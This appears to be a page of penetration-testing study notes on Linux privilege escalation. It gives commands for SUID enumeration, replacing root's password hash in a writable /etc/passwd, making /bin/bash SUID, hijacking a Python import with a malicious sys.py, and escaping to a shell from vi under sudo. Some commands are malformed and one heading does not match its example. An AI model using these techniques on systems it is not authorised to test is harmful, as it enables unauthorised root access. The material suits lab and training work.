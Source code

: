 # (PART) Priviledge Escalation {-}

# Linux Machine {-}


To check in which group the user is in the machine:

```bash
id 
```

To look at the user priviledges use:

```bash
sudo -l
```

Next enumerate SSUID priviledges at system level:

```bash
cd /
find \-perm -4000 2>/dev/null
```

## Writable rights in /etc/passwd {-}

Find the tools where the non privileged user have writable rights

```bash
cd /
find \-writable -4000 2>/dev/null | grep "etc"
```

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first **x** is.

Create a DES(Unix) password

```bash
openssl passwd
#Output
Password:
Verifying - Password:

JIJQueSBU9kBY
```

You can then copy the hash in passwd for the root user

```bash
root:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh
```

## Local Port forwarding {-}

```bash
ssh -i id_rsa user@<ip> -L 9000:172.17.0.2:9000
```

- -i for adding ssh id_rsa key
- -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh

## Add SSUID priviledge to tool {-}

```bash
ls -l /bin/bash
# output
-rwxr-xr-x  1   root    root    1037528 May 16  2017    bash

#add ssuid rules
chmod u+s /bin/bash
ls -l /bin/bash
#output
-rwsr-xr-x  1   root    root    1037528 May 16  2017    bash

bash -p
# output
bash-4.3# whoami
root
```

## Path Hijacking {-}

**Path Hijacking** take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

## Library Hijacking {-}

**Library Hijacking** follows exactly the same logic as **Path Hijacking** but with programming languages. If we take the example of python.

```python
import sys

print(sys.path)
#Output
['', '/usr/lib/python2.7', ...]
```

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

That's it... by calling the previous script you will become root.

## WildCards {-}

```bash
sudo -l

#output
User x may run the following commands on y:
    (user2) NOPASSWD: /usr/bin/vi


sudo -u user2 /usr/bin/vi
# in vim you can now set commands as user2

:set shell=/bin/bash
:shell

whoami
#output
user2
```

## Linux capabilities exploitation {-}

Check in the system if a tool have a special capability that can be used in order to escalate priviledges (**cap_setuid+ep**)

```bash
getcap -r / 2>/dev/null
```

## Kernel abuse {-}

first check the kernel version

```bash
uname -a
```
